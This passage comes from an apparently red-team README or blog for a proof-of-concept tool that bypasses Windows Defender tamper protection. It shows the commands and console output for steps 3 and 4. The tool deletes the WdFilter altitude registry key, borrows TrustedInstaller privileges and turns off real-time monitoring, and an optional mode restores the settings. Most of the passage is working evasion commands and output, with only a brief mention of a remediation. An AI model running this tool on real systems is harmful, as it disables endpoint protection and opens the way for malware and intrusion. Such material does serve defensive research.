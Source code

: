 3. Disable Defender / MDE:
```
C:\Users\User\Desktop>.\Disable-TamperProtection.exe 3
[+] WdFilter Altitude Registry key has been successfully deleted.
[+] Trusted Installer handle: 000000000000011C
[!] Spawning registry with TrustedInstaller privileges to Disable 'RealtimeMonitoring' regkey.
[+] To disable other components of defender check source.
[+] Created process ID: 8040 and assigned additional token privileges.
```

*NOTE: Even though Tamper Protection is effectively disabled now, it takes a reboot to render the same change in the "Security Settings" GUI Prompt.*

The POC manages to semi-permanently disable Real time monitoring (gray out) after Tamper Protection is disabled. This can be remediated by the mentioned method in this blog.

![](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/redteaming/Bypass-Tamper-Protection/Images/Pasted%20image%2020240311143923.png)


4. Optionally reinstate the WdFilter minidriver, TamperProtection and Defender Settings (RealTimeMonitoring) using option 4 as follows:
```
# Restart the computer to restore settings successfully
C:\Users\User\Desktop>.\Disable-TamperProtection.exe 4
[+] WdFilter Altitude Registry key has been successfully deleted.
[+] Make sure to change Altitude in Source (Default: 328010) and reboot computer after execution.
[+] Trusted Installer handle: 0000000000000120
[!] Spawning registry with TrustedInstaller privileges to Enable 'RealtimeMonitoring' regkey.
[+] Created process ID: 5852 and assigned additional token privileges.
[!] Spawning registry with TrustedInstaller privileges to Enable 'TamperProtection' regkey.
[+] Created process ID: 2744 and assigned additional token privileges.
[!] Spawning registry with TrustedInstaller privileges to restore WdFilter "Altitude" regkey.
[+] Created process ID: 7044 and assigned additional token privileges.
```
